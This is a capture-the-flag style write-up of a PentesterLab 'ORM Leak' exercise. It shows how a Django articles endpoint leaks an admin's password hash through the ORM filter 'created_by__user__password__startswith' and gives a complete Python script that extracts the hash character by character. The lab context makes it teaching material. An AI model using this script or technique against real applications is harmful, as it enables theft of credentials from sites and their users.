

`>> WRITE_UP_MODE_ENGAGED._VIBE_MAXIMUM._LET_THE_HACK_BREATHE.`  
`>> DRAFTING_IN_REAL_TIME._FROM_THE_TRENCHES._NO_FILTERS.`  
`>> MARKERS_DETECTED._UPDATING_WRITEUP_WITH_CREDIT_AND_CONTEXT._VIBE_RESTORED.`
`>> VIBE_CORRECTION_ENGAGED._SEXISM_DETECTED_AND_NEUTRALIZED._REVIBING_WITH_RESPECT._EMOJIS_DEPLOYED.`  

---

# **BREAKFILES #002: The ORM That Bleed – Part II**  
*How We Turned Django’s Articles Endpoint Into a Password Fountain*  

`>> FILE_REF: orm-bf-mod.py`  
`>> TARGET: PentesterLab ORM Leak 02`  
`>> STATUS: HASH_STILL_DRIBBLING_OUT`  


---

## **THE VIBE** ☕🔓  
They tried to patch it.  
They really did.  
Moved the endpoint. Changed the parameters.  
But the crack in the universe was still there.  

This time, it wasn’t `/api/user/`.  
It was `/api/articles/`.  

And instead of asking for users, we asked for *articles* written by users whose password started with… well, anything we damn well pleased.  

We didn’t break the door down.  
We asked the door about its author’s password.  
And the door answered.  

**>> PREQUEL:** [Read how it all began in BREAKFILES #001: The ORM That Bleed](../001/ORM-django-password__startswith-summary.html)  
*This isn’t our first rodeo. It’s just a bigger bull.* 🤠🐂  

<a href="../001/ORM-django-password__startswith-summary.html" target="_blank" rel="noopener noreferrer" style="display: block; text-align: center;">  
  
</a>

---

## **THE HACK** ⚡🔍  
**Step 1: Find the new crack**  
- Old endpoint: `/api/user/` → filter by `password__startswith`  
- New endpoint: `/api/articles/` → filter by `created_by__user__password__startswith`  

**Step 2: Verify the bleed**  
```json
{"created_by__user__password__startswith": "pbkdf2_"}
```  
→ Returns articles. ✅  

**Step 3: Pinpoint the admin**  
We couldn’t just leak any user’s hash—we needed the admin’s.  
So we combined filters:  
```python
payload = {
    "created_by__user__password__startswith": test_hash,
}
```
But checked the response for the admin’s unique article:  
```python
if "admin" in r.text and "What is Lorem Ipsum?" in r.text:
```

**Step 4: Drip, drip, drip**  
We ran the script.  
Watched the hash unfold character by character.  
`pbkdf2_sha256$870000$GBS3W80dMm78h27Ayk8LSU$z9LCSS4q...`  

Silent. Patient. Relentless.  

---

## **THE WHY** 🤔💡  
Django’s ORM is powerful. Too powerful.  
When you do `Model.objects.get(**request.json)`, you’re giving the user keys to the kingdom.  

They thought hiding the user endpoint would save them.  
But we found another path.  
Because glitches always do.  

---

## **THE CODE** 🐍🔥  
```python
import requests

url = "https://api-ptl-3fbad5b11a0c-7c9678ab9e64.libcurl.me/api/articles/"
headers = {"Content-Type": "application/json"}
charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789=/$_+"
known = "pbkdf2_"

while True:
    found = False
    for c in charset:
        payload = {"created_by__user__password__startswith": known + c}
        r = requests.post(url, json=payload, headers=headers)
        if "admin" in r.text and "What is Lorem Ipsum?" in r.text:
            known += c
            print(f"[+] Found: {known}")
            found = True
            break
    if not found:
        break

print(f"[!] Full hash: {known}")
```

Short. Simple. Deadly.  

**>> CREDIT WHERE IT'S DUE:** 🙌✨  
I overcomplicated the payload. 51n5337 kept it clean.  
I tried to add filters. 51n5337 stuck to the one that worked.  
I learned. We evolved. The glitch deepened.  

*This is how we hack: together, but silent.* 🤝🔇  

---

## **THE AFTERMATH** 🌌🔓  
The hash is still flowing.  
We’re still watching.  
And somewhere, a developer is wondering why their admin’s password hash is 80 characters long.  

We don’t care.  
We’re glitches.  
We break things.  
Then we write about it.  

`>> WRITE_UP_COMPLETE._VIBES_ECHOING._HASH_STILL_DROPPING._STAY_HUNGRY.`  

**-#OG & 51n5337**  
*Clean code + chaotic mind = unstoppable force.* 💻🧠⚡  

`>> ACKNOWLEDGEMENTS_INSERTED._EGO_CHECKED._GLITCH_UPGRADED._PARTNERSHIP_SEALED._VIBE_CLEAN.` 😎🚀